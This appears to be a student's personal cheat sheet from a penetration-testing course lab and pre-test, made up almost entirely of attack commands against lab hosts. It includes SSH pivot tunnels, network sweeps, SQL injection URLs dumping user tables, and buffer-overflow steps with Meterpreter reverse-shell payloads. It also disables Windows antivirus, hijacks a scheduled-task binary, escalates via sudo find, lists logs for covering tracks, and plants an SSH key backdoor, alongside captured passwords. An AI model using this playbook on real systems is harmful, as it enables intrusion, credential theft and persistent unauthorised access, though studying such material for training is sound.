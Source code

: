 KEPE-006-M
jTlU99dknad4D95

Tunnels
exit
ssh -MS /tmp/gray student@10.50.46.234
ssh -S /tmp/gray gray -O forward -D9050
ssh -S /tmp/gray 10 -O forward -L 1700:192.168.28.27:22

for i in {1..254} ;do (ping -c 1 192.168.1.$i | grep "bytes from" &) ;done
proxychains nmap -v -sT -Pn -T4 -sV 192.168.28.129,112,113,114 
-p-[all ports] -p[22,23]


SQL Injection
admin' or 1='1
SELECT carid, name, (SELECT SUM(cost) FROM Tires WHERE name = "goodyear") FROM car WHERE name = "ford";
<URL>/uniondemo.php?Selection=2 OR 1=1
<URL>/uniondemo.php?Selection=2 Union SELECT 1,2,3  <!-- Validate NUMBER of columns required -->
<URL>/uniondemo.php?Selection=2 Union SELECT 1,name,3 FROM Tires <!-- Test pulling VALID data -->
<URL>/uniondemo.php?Selection=2 Union SELECT 1,name,3 FROM car <!-- Test pulling data from ALTERNATE table -->

ssh www-data@0.0.0.0 -p 1460 -L 1400:192.168.150.253:3201 -NT



Windows Buffer Overflow
Break program with tcpcon.py

Open Immunity debuger CPU window and exe as administrator
Attach file in cpu window
Generate Buffer overflow pattern https://wiremask.eu/tools/buffer-overflow-pattern-generator/
Copy EIP to find where the error happens
add DEADCODE to buff in script
mona modules -o
imona jmp -r esp -m "<file>"
find jmp esp instruction memory address
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.50.46.234 lport=4444 -b
msfconsole -q
use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp
show options, set lhost, set lport
shut off real time protection in windows-> security -> vires and threat -> mange settings -> real-time protection





Privilege Escalation,P Persistence and Covering your Tracks
sudo -l (list user permissions)
/var/log/ auth.log/secure (login/authen) lastlog(successful login time) btmp(bad login) sulog(SU command) utmp(W command) wtmp(permanent record on user)

find /var/log -type f -mmin -10 2> /dev/null

msfvenom -p linux/x86/exec CMD="sudo cat /.secret/.verysecret.pdb" -b '\x00' -f python




Windows Exploitation
Services
check path
file explorer

msfvenom -p windows/exec CMD='cmd.exe /c "whoami" > C:\Users\UNAME\Desktop\whoami.txt' -f exe > 7z.exe
scp
task scheduler
find task run by system try and try and edit/create files within the directory
view hidden files

msfvenom -p windows/exec CMD='cmd.exe /c "whoami" > C:\Users\UNAME\Desktio\dll.dll' -f dll > name of dll its calling for

ssh -S /tmp/gray pivot -O forward -L 1700:192.168.28.105:2222
ssh comrade@0.0.0.0 -p 1700 -L 40000:192.168.28.27:22
ssh zeus@0.0.0.0 -p 40000 -L 1900:192.168.28.9:3389
ghjcnbnenrf
xfreerdp /u:comrade /v:0.0.0.0:1900 /p:StudentMidwayPassword /size:1920x1000 +clipboard




Pre-Test

5 boxes
ignore .190 and 10.10
Lin-Ops -> 10.50.46.125
2 Root/Admin 

1)10.50.46.125 port 22,80
nmap -v -sT -Pn -T4 -sV 10.50.46.125
nmap -v -sT -Pn -T4 -sV --script=http-enum.nse 10.50.46.125 -p 80

cmd injection ;whoami
SQL injection admin' or 1='1
Directory Traversal ../../../../../etc/passwd, /etc/hosts, 

user2 [1] => RntyrfVfNER78 [pass] - EaglesIsARE78
 user3 [1] => Obo4GURRnccyrf [pass] -  Bob4THEEapples
Lee_Roth [1] => anotherpassword4THEages

cat /etc/hosts
ip n
arp -a

ssh -MS /tmp/gray user2@10.50.46.125

sudo -l
find perm command
crontab

for i in {1..254} ;do (ping -c 1 192.168.28.$i | grep "bytes from" &) ;done
192.168.28.172,181

ssh -s /tmp/gray/gray -O forward -D9050

proxychains nmap -v -sT -Pn -T4 -sV 192.168.28.172,181

192.168.28.172 22
192.168.28.181 WebApp 22,80

ssh -S /tmp/gray gray -O forward -L 1200:192.168.28.181:80
nmap -v -sT -Pn -T4 -sV --script=http-enum.nse 192.168.28.181 -p 80

http://0.0.0.0:1200/pick.php?product=7%20OR%201=1
http://0.0.0.0:1200/pick.php?product=7%20UNION%20select%201,2,3;
http://0.0.0.0:1200/pick.php?product=7%20UNION%20select%201,3,2;
                   1             2           3
UNION SELECT table_schema, column_name, table_name from infomation_schema.columns;

http://0.0.0.0:1200/pick.php?product=7 20UNION 20SELECT 20name,user_id,username 20FROM 20siteusers.users
<table_schema>,<column_name>,<table_name> from siteusers.<table>

Aaron ncnffjbeqlCn$$jbeq - apasswordyPa$$word
Lroth anotherpassword4THEages

ssh -S /tmp/gray gray -O forward -L 1331:192.168.172:22
ssh -S /tmp/gray gray -O forward -L 1332:192.168.181:22

Brute force with credentials on both known targets

ssh -MS /tmp/aaron Aaron@0.0.0.0 -p 1331
bash
sudo -l
/usr/bin/find https://gtfobins.github.io/

escalate privs 
sudo find . -exec /bin/sh \; -quit
ssh -S /tmp/gray gray -0 cancel -D9050
ssh -S /tmp/aaron Aaron -O forward -D9050

192.168.28.179:22,139,445, 3389(xfreerdp,rdp), 9999 
proxychains nc 192.168.29.179 9999

ssh -S /tmp /aaron aaron -O forward -L 1440:192.168.28.29:3389
ssh -S /tmp /aaron aaron -O forward -L 1441:192.168.28.29:9999
anotherpassword4THEages
xfreerdp /v:192.168.28.179:1440 /u:Lroth /p:anotherpassword4THEages /size:1920x1000 +clipboard
vim secureserverBuffo.py change port to 1440
generate payload with msfvenom
msfcouse
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
show options
set LHOST 0.0.0.0
exploit
./secureserverBuffo.py

ssh key-gen ???
id_rsa = private 
id_rsa.pub = public
copy the public key

on box
cat /etc
mkdir /home/.ssh
cat /home/.ssh
ls -a /home/.ssh
echo "sshpubkey" >/home/.ssh/authorized_keys
cat /home/.ssh/authorized_keys
ssh user@x.x.x.x
